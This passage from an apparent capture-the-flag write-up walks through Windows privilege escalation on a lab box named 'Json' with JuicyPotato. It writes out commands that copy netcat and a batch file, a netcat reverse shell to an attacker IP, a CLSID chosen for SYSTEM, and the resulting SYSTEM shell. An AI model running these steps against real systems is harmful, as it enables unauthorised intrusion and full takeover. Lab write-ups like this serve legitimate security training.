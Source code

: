     Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
    

### JuicyPotato

I’ll grab the binary from the [JuicyPotato release
page](https://github.com/ohpe/juicy-potato/releases) and drop it into my
share. I’ll copy `nc64.exe` and `rev.bat` onto Json, where `rev.bat` is just a
`nc` rev shell:

    
    
    c:\>copy \\10.10.14.10\share\nc64.exe \windows\system32\spool\drivers\color\
            1 file(s) copied.
    
    c:\>copy \\10.10.14.10\share\rev.bat \windows\system32\spool\drivers\color\
            1 file(s) copied.
            
    c:\>type \windows\system32\spool\drivers\color\rev.bat
    \windows\system32\spool\drivers\color\nc64.exe -e cmd.exe 10.10.14.10 443
    

Now I’ll select a CLSID from the [JuicyPotatio documentation for this
OS](https://github.com/ohpe/juicy-
potato/tree/master/CLSID/Windows_Server_2012_Datacenter) that is associated
with SYSTEM and give it a run:

    
    
    c:\>\\10.10.14.10\share\JuicyPotato.exe -t * -p \windows\system32\spool\drivers\color\rev.bat -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 9001
    ....
    [+] authresult 0
    {e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    

In my `nc` listener in another window, I get a shell as SYSTEM:

    
    
    PS > nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64696
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    

And from there, I can grab root.txt:

    
    
    C:\Users\superadmin\Desktop>type root.txt
    3cc85d1b************************
    